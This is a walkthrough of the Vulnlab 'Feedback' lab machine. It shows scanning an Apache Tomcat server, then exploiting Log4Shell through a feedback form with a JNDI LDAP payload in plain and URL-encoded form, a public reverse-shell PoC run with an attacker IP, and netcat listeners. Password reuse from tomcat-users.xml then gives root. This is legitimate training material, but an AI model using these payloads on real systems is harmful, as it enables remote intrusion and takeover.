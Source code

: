 ```yaml
---
title: "Vulnlab - Feedback Walkthrough"
date: 2025-01-19
draft: false
summary: "This is my first post on my site"
tags: ["Vulnlab", "Linux"]
---
```


## Port Scanning

An initial Rustscan scan reveals:

```bash
rustscan -a feedback.vl --ulimit 5000 --
```

![](Feed-Rustscan.png)

Two ports are reported as open - SSH and port 8080 (likely a web server). A more detailed Nmap scan shows the following information:

```bash
nmap -Pn -p22,8080 -A -T4 feedback.vl
```

![](Feed-Nmap.png)

SSH is running OpenSSH 7.6p1 - not likely the initial foothold but good to remember. The other open port appears to be an Apache Tomcat server running version 9.0.56.

## Web Enumeration

Navigating to the web page returns an Apache Tomcat default installation page:

![](Feed-Tomcat.png)
Attempting to enter default creds to access the Manager App results in a 401 Unauthorized before reaching the login panel:

![](Feed-403.png)
Attempting to bypass this via Header Injection such as using `X-Forwarded-For` and the value of `localhost` or `127.0.0.1` proves unsuccessful. 

Performing a directory busting scan via `dirsearch` results in some potentially interesting directories being found:

```bash
dirsearch -u http://feedback.vl:8080/ -x 403,400,500,401,404
```

![](Feed-Dirsearch.png)
A couple of ones stand out:

- docs - could contain interesting documentation
- examples - could be default stuff in here
- feedback - a page to submit feedback potentially

Navigating to `/docs` reveals some standard Apache Tomcat documentation - nothing interesting. However, it does disclose the specific version and its release date:

![](Feed-TomcatVersion.png)
The `/examples` directory, again, contains what appears to be standard Apache Tomcat examples for servlets, JSP and websockets:

![](Feed-Examples.png)
Finally, the `/feedback` page includes a lot more interesting content:

![](Feed-Back.png)
It includes an input field for a name and specific feedback. Entering some information and hitting `Send` redirects to a page stating the request has been logged:

![](Feed-Logged.png)
Take note of the URL being sent - it appears to contain a JSESSIONID cookie which could be interesting. Checking the Network tab after sending feedback does not show any interesting files:

![](Feed-LogFeedback.png)
Analysing the "Sources" tab for any interesting files as well results in an interesting comment on the `/feedback` page:

![](Feed-Log4J.png)
It appears to be running Log4J.

## Log4J Simple PoC

To test if it is indeed vulnerable, a simple PoC can be sent via the feedback form which is as follows:

```java
${jndi:ldap://10.8.4.237:4444/a}
```

When Log4J processes this string, it identifies the expression and initiates a JNDI lookup to the provided LDAP server. The LDAP server then responds with a specially crafted payload in the normal attack, but this will just be a PoC to see if it can communicate with our machine.

To test, run a Netcat listener (`nc -nvlp 4444`) and send the payload through both the feedback and name options:

![](Feed-LogPayloads.png)
Unfortunately, no connection is made on the Netcat listener. One possible cause is the special characters being escaped since it is being sent by a browser. Trying to use a fully URL encoded payload such as:

```bash
%24%7B%6A%6E%64%69%3A%6C%64%61%70%3A%2F%2F%31%30%2E%38%2E%34%2E%32%33%37%3A%34%34%34%34%2F%61%7D
```

![](Feed-Encoded.png)
After sending it through a proxy like Caido, the Netcat listener catches a connection:

![](Feed-NetCat.png)

## Log4J Exploitation

With confirmation that it can now connect back to the attacker machine successfully, it can potentially be exploited. Further research revealed a [GitHub repository](https://github.com/kozmer/log4j-shell-poc) that contains a reverse shell PoC.

After cloning the repository, the requirements must be installed in a Python virtual environment. To start a virtual environment:

```bash
python -m venv venv
source venv/bin/activate.fish # for fish shell only
```

![](Feed-ActivateFish.png)
Afterwards, install the requirements via `pip`:

```bash
pip install -r requirements.txt
```

![](Feed-Pip-Install.png)
Before running the exploit, there must be an extracted Java archive present in the same directory named `jdk1.8.0_20`.  Download the `8u21` version from [Oracle](https://javadl.oracle.com/webapps/download/GetFile/1.8.0_261-b12/a4634525489241b9a9e1aa73d9e118e6/linux-i586/jdk-8u261-linux-x64.tar.gz) (direct download link) titled `jdk-8u261-linux-x64.tar.gz` and extract it.

Once done, modify the `poc.py` file and edit every line that says `jdk1.8.0_20` to `jdk1.8.0_261`:

![](Feed-JDK.png)
Afterwards, run the script and check what options it requires:

![](Feed-Usage.png)
It requires the user IP (attacker IP), web port (attacker listening port) and lport (netcat port):

```bash
python3 poc.py --userip 10.8.4.237 --webport 8000 --lport 443
```


![](Feed-Setup.png)
Then, a Netcat listener must be set up to catch the reverse shell:

```bash
nc -nvlp 443
```

Finally, send the full URL encoded payload specified in the same input field as before (name) and check the Netcat connection:


![](Feed-RevShell.png)

## Post Exploitation

Checking out the `/home` directory, there is only an `ubuntu` user but no flag is present:


![](Feed-Ubuntu.png)
As precaution, LinPEAS can be transferred over and ran while manual enumeration takes place. 

While LinPEAS runs, enumeration can be done manually. When the shell popped, it provided a shell under the `/opt/tomcat` directory. Checking the `conf` directory for any interesting configuration files results in the following:


![](Feed-Tomcatusers.png)
There are some interesting files, including a potential users XML file. Checking back on LinPEAS, it also found this file:


![](Feed-Users.png)
Checking the contents reveals a potential username and password:


![](Feed-PassesBlur.png)
It reveals two users with the same password which could indicate password reuse:

- admin
- robot

Attempting to login as the ubuntu user with the password results in a failure:

![](Feed-NoUbuntu.png)
The robot user does not exist as can be seen in the `/etc/passwd` file:

![](Feed-Passwd.png)
Since the password was reused and is used by an `admin` user, it may be reused as root's password. Checking this appears to be the case:

![](Feed-RootUserBlur.png)




